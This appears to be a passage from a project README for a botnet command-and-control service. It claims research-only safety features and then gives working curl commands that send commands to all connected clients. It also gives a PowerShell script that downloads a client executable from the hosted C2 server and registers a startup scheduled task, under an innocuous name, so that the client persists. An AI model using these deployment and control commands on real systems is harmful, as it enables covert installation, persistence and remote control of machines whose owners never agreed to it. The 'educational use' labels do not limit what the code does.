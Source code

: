 ## 🔒 Security & Research Compliance

### **Built-in Safety Features:**
- ✅ **Research Mode Only**: Clients refuse to run without research mode
- ✅ **Ethical Controls**: Automatic boundary enforcement
- ✅ **Activity Logging**: Comprehensive operation logging
- ✅ **Geographic Restrictions**: Configurable regional limits
- ✅ **Time Constraints**: Automatic session expiration
- ✅ **Emergency Stop**: Remote termination capability

### **Legal Compliance:**
- ✅ **Educational Use Only**: Clear usage restrictions
- ✅ **Authorized Testing**: Deployment only on owned/authorized systems
- ✅ **Research Documentation**: Activity reporting for academic use
- ✅ **Data Protection**: No sensitive data collection

## 📊 Monitoring & Management

### **Real-time Monitoring:**
- **Dashboard**: https://botnet-wqg2.onrender.com
- **API Status**: https://botnet-wqg2.onrender.com/api/status
- **Health Check**: https://botnet-wqg2.onrender.com/health

### **Client Management:**
```bash
# Check client status
curl -s https://botnet-wqg2.onrender.com/api/bots | jq

# Send commands to all clients
curl -X POST https://botnet-wqg2.onrender.com/api/commands \
  -H "Content-Type: application/json" \
  -d '{"command": "system_info", "targets": ["all"]}'

# Emergency stop all clients
curl -X POST https://botnet-wqg2.onrender.com/api/emergency-stop
```

## 🌐 Platform-Specific Deployment

### **Windows Deployment:**
```powershell
# PowerShell deployment script
$client = "https://botnet-wqg2.onrender.com/download/client-windows.exe"
$server = "https://botnet-wqg2.onrender.com"

# Download client
Invoke-WebRequest -Uri $client -OutFile "bot-client.exe"

# Create scheduled task for persistence (research only)
$action = New-ScheduledTaskAction -Execute "bot-client.exe" -Argument "--server $server --research-mode"
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -TaskName "ResearchClient" -Action $action -Trigger $trigger
```
